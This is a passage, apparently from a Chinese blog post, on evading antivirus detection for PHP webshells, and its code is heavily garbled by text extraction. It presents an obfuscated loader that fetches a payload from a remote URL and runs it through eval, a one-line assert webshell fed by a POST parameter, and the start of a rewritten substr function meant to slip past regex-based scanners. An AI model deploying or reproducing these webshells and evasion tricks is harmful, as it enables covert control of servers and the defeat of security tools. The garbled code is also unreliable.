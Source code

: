 function HHGJ( U y G v , UyGv, UyGv,x) {  
$svfe = \[\];  
$mxAS = ‘’;  
$f = U y G v ; f o r ( UyGv; for ( UyGv;for(i=0; i < s t r l e n ( i<strlen( i<strlen(f);$i++)  
{  
s v f e \[ \] = c h r ( ( o r d ( svfe\[\] = chr((ord( svfe\[\]\=chr((ord(f\[ i \] ) + i\])+ i\])+x));  
}  
m x A S = i m p l o d e ( mxAS = implode( mxAS\=implode(svfe);  
return $mxAS ;  
}  
?>![在这里插入图片描述](https://img-blog.csdnimg.cn/2bf78398389e4b5391940e90948d34d9.png)  
当然肯定能用![在这里插入图片描述](https://img-blog.csdnimg.cn/d66f77e52c9544918ac4f8443b246000.png)  
但是 这转了一圈简直不低碳啊 我不能直接http获取payload吗 …

简化代码：

-   <?php

class KUYE{  
public $a = ‘yshasaui’;  
public $b = ‘’;  
function \_\_construct(){  
$url = “http://xxx/1.txt”;  
f p = f o p e n ( fp = fopen( fp\=fopen(url, ‘r’);  
stream\_get\_meta\_data( f p ) ; w h i l e ( ! f e o f ( fp); while (!feof( fp);while(!feof(fp)) {  
b o d y . = f g e t s ( body.= fgets( body.\=fgets(fp, 1024);  
}  
$this->b = b o d y ; @ e v a l ( " / ∗ G n S p e = 121 u ∗ / " . body; @eval("/\*GnSpe=121u\*/". body;@eval("/∗GnSpe\=121u∗/".this->b.“/_Gn212Spe=u_/”);  
}}  
new KUYE();  
?>![在这里插入图片描述](https://img-blog.csdnimg.cn/e82d0d37d33e4dcc88c7aae2ba27d8a9.png)  
![在这里插入图片描述](https://img-blog.csdnimg.cn/4be38069f2d3468980dac3388e8925f9.png)

## 0x03：重写函数Bypass

众所周知 正则类杀软最喜欢直接把危险函数加入规则 那么 它杀的是函数名 还是逻辑呢？

试一试就知道了

我们的样本如下：

<?php $a = substr("assertxx",0,6); $a($\_POST\['x'\]); ?>

这是个使用substr函数切割关键字的小马

直接扔到webdir+杀![在这里插入图片描述](https://img-blog.csdnimg.cn/5a2335dea2084502a35ef9a88f22241f.png)  
毫无疑问的被杀了

那么 我们重写substr函数

-   function mysubstr($string, $start = 0, $length = null) {  
    $result = ‘’;  
    s t r L e n g t h = s t r l e n ( strLength = strlen( strLength\=strlen(string);  
    if ($length === null) {  
    $length = $strLength;  
    }  
    $length = (int) $length;  
    $start = s t a r t < 0 ? ( start < 0 ? ( start<0?(strLength + s t a r t ) : ( start) : ( start):(start);  
    $end = l e n g t h < 0 ? ( length < 0 ? ( length<0?(strLength + $length) : $start + l e n g t h ; i f ( length; if ( length;if(start > s t r L e n g t h ∣ ∣ ( strLength || ( strLength∣∣(end - $start) === 0) {  
    return $result;  
    }  
    for (; $start < $end; $start ++) {  